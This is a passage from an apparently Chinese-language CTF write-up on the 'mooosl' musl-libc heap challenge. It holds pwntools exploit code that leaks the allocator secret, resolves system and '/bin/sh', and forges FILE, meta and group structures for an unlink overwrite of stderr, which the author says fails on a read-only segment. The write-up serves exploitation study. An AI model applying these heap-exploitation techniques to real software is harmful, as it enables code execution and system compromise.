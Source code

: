 ```py
for i in range(3):
    query(b'B' * 0x30)
query(p64(smallchunk) + p64(meta_area) + p64(1) + p64(0x30) + p64(enc) + p64(0), key_size=0x30)
query(b'B')

leak = hex2bytes(io.recvline().split(b":")[1])
secret = u64(leak[0:8])
info('secret: ' + hex(secret))
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))
stderr = libc_base + libc.symbols['stderr']
stdout = libc_base + libc.symbols['stdout']
```

# 3. 解题第二步：伪造`FILE`、`meta`、`group`等结构并利用

这一步是常规步骤，我们将伪造的`FILE`结构体、伪造的`meta`、`group`、`chunk`放在一个chunk中，注意`meta_area`需要页对齐，并在页首部写入`secret`值。

写入之后，我们想办法释放假的chunk，方法是将原来用于leak的chunk分配出去，然后修改内部指针的值，再通过delete删除即可。然后就可以利用unlink修改stderr指针的值为我们的假chunk。但是很不幸的是，stderr指针所在的段是只读的，我不知道为什么很多的文章都说要修改这个地方，但是这里不能改，如果能改的话是肯定可以过的。也就是最后一次delete无法完成。

exp:

```py
from pwn import *
context.log_level = 'debug'
io = process('./mooosl', env={'LD_PRELOAD': 'libc.so'})
libc = ELF('libc.so')
elf = ELF('./mooosl')

sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)
att = lambda: gdb.attach(io)
sleep = lambda: time.sleep(3)

def encrypt(content: bytes):
    res = 2021
    for i in range(len(content)):
        res = res * 0x13377331 + ord(content.decode()[i])
        res %= 0x1_0000_0000
    return res & 0xFFF

def encrypt_original(content: bytes):
    res = 2021
    for i in range(len(content)):
        res = res * 0x13377331 + ord(content.decode()[i])
        res %= 0x1_0000_0000
    return res

def store(key_content, value_content, key_size = None, value_size = None):
    sla(b'option: ', b'1')
    if key_size is None:
        sla(b'key size: ', str(len(key_content)).encode())
        sa(b'key content: ', key_content)
    else:
        sla(b'key size: ', str(key_size).encode())
        sa(b'key content: ', key_content)
    if value_size is None:
        sla(b'value size: ', str(len(value_content)).encode())
        sa(b'value content: ', value_content)
    else:
        sla(b'value size: ', str(value_size).encode())
        sa(b'value content: ', value_content)

```